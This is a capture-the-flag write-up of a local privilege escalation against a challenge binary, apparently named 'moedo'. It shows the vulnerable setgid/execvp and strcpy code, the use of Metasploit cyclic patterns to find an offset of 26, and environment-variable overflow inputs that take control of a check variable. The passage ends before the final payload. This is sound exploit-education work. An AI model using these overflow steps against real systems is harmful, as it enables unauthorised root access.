 ```c
    if (setgid(0) != 0)
    {
        perror("setgid() failed");
        return 1;
    }

    puts(chant);

    if (execvp(argv[1], &argv[1]) != 0)
    {
        perror("execv() failed");
        return 1;
    }
```
This precisely tells us that our `cat` command will be executed with elevated privileges if we can bypass the `moeness != MOE_ENOUGH` if-statement.

`MOE_ENOUGH` is explicitly defined as `0x30e`. And our `moeness` variable is calculated via the `check_moe()` function. The function itself doesn't seem to have any noticable vulnerabilities ( *at least for me* ). So I looked at the main function has found the bug:
```c
if (custom_chant)
 strcpy(chant, custom_chant)
```
The classic `strcpy` vulnerability which allows us to overflow local variables in the `main()` method. I then generated cyclic pattern using `MsF` for 100 bytes:
```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
since 100 bytes are sure to overflow the simple `chant[]` buffer:
```c
char chant[] = "Moe Moe Kyun!";
```
Then I set those bytes as `MOE_CHANT` env variable and run the program:
```console
moehost:~$ export MOE_CHANT="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"
moehost:~$ moedo "cat /root/flag"
UID: 1648439650 - GID: 1093689921 - Moe: 39614138
You're not moe enough!
Segmentation fault
moehost:~$ 
```
Here we see a seg fault, which is a good sign. But also the content in the `moeness` variable = `39614138`. This can be used to calculate the offset for overflowing this variable:
```console
$ msf-pattern_offset -q 39614138                                                                                    
[*] Exact match at offset 26
$ 
```
To test it, we will set `MOE_CHANT` env variable as `"A" * 26 + "BCDE` and run the program:
```console
moehost:~$ export MOE_CHANT="AAAAAAAAAAAAAAAAAAAAAAAAAABCDE"
moehost:~$ moedo "cat /root/flag"
UID: 1001 - GID: 768 - Moe: 45444342
You're not moe enough!
moehost:~$
```
Great we can successfully control the `moeness` variable. Now let's replace the `BCDE` in env variable as 0x30e ( in little endian format ) and try again:
